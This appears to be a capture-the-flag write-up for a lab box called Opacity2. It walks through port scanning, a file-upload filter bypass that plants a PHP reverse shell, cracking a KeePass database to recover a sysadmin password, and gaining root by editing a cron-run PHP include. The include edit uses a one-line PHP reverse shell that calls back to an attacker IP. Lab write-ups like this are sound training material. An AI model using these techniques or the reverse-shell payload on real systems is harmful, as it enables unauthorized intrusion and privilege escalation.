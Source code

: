# Opacity2

Nmap found a couple of open ports<br>
```
22/tcp   open     ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp  open     netbios-ssn Samba smbd 4.6.2
445/tcp  open     netbios-ssn Samba smbd 4.6.2
3546/tcp filtered unknown
```

This is what we got when we got to the port 80<br>
![port 80](./imgs/port80.png)<br>

I checked out the `smb` thing and it looks like we do not have any access.<br>
![smb](./imgs/smb.png)<br>
Most likely it wants us to do web exploitation.<br>
Using `ffuf` I found a page called cloud on the server.<br>
![cloud](./imgs/cloud.png)<br>
I played with it for a couple of minutes trying uploading different things and putting different payloads. I set up an nc listener and my main goal was to upload a reverse-shell to the server. Soon I realized that I can upload whatever I want to the server as soon as I put `>.png` at the end of the link. So I set `python http server` got a simple reverse-shell, uploaded it to the server and accessed in http://opacity2.thm/cloud/images/shell.php and got a reverse-shell.<br>
However, current user could do literally nothing. Checking different folders on the system I found an interesting file: `/opt/dataset.kdbx`<br>
I started a `python3 http.server` and downloaded the file. Googling research I found that this is a file of program called `keepass` which is a password manager. Then I used john the ripper to get the hash and crack it.
```
keepass2john dataset.kdbx > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
Here is what I got
```
741852963        (dataset) # keepass
```
Then, I installed `KeePass2` to my machine, opened the file with the password that `john` found for me and got sysadmin's credentials.
```
sysadmin:Cl0udP4ss40p4city#8700
```
That is how we got our first flag.<br>

## Privilege Escalation
Besisdes the flag there is a folder called `scripts` and there we got a folder `lib` and `script.php`. Reading `script.php`, we can suppose that it is scheduled to run periodicly, and also there are two interesting lines for us:
```
...
require_once('lib/backup.inc.php');
zipData('/home/sysadmin/scripts', '/var/backups/backup.zip');
...
```
From the first line we know that the script executes another script called `backup.inc.php` in the `lib` folder.<br>
And from the second line we know that the backups are saved to `/var/backups/backup.zip`.<br>
I went to the `lib` folder and it looked like a did not have permissions to change any files. However, if you remember there is our `backup.zip` which contains basicly the same things that folder `scripts` does. So I went to `/var/backups` and did:
```
unzip backup.zip -d /home/sysadmin/scripts
```
It said that id couldn't replace `script.php` but that's okay. When I visided the `lib` folder again I had permissions to change files, so I changed `backup.inc.php` and added there the following line:
```
$sock=fsockopen("10.2.116.12",2222);exec("sh <&3 >&3 2>&3");
```
which is a simple *php reverse-shell*. Also I set up an nc listener on port 2222,	 and in minute we got our root shell. :smile: